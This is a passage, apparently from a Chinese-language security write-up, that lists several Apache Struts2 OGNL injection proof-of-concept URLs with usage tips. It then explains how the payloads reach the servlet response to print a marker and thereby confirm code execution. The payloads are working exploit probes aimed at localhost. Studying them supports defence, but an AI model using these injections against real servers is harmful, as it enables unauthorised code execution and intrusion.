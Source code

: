 POC2（类型转换漏洞需要把POC加在整型参数上）:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22))%2b'

```

POC3（需要注意这里也必须是加载一个String(字符串类型)的参数后面，使用的时候把URL里面的两个foo替换成目标参数（注意POC里面还有个foo））:

```
http://127.0.0.1/Struts2/hello.action?foo=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=%20new%20java.lang.Boolean(false),%23_memberAccess[%22allowStaticMethodAccess%22]=new%20java.lang.Boolean(true),@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22))&z[(foo)('meh')]=true

```

POC4:

```
http://127.0.0.1/Struts2/hello.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d=+new+java.lang.Boolean(false),%23_memberAccess%5b%22allowStaticMethodAccess%22%5d=true,%23s3cur1ty=%40org.apache.struts2.ServletActionContext%40getResponse().getWriter(),%23s3cur1ty.println(%22[/ok]%22),%23s3cur1ty.close())(aa)&x[(class.classLoader.jarPath)('aa')]

```

POC5:

```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23response=@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22),%23response.close()}

```

POC6:

```
http://127.0.0.1/Struts2/$%7B%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23resp=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23resp.println(%22[ok]%22),%23resp.close()%7D.action

```

POC7:

```
http://localhost/Struts2/test.action?redirect:${%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()}

```

**@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22)**其实是静态调用**ServletActionContext**上面已经讲过了ServletActionContext能够拿到真正的HttpServletRequest、HttpServletResponse、ServletContext忘记了的回头看去。**拿到一个HttpServletResponse响应对象后就可以调用getWriter方法(返回的是PrintWriter)让Servlet容器上输出[/ok]了，而其他的POC也都做了同样的事：拿到HttpServletResponse，然后输出[/ok]。**其中的allowStaticMethodAccess在Struts2里面默认是false，也就是默认不允许静态方法调用。
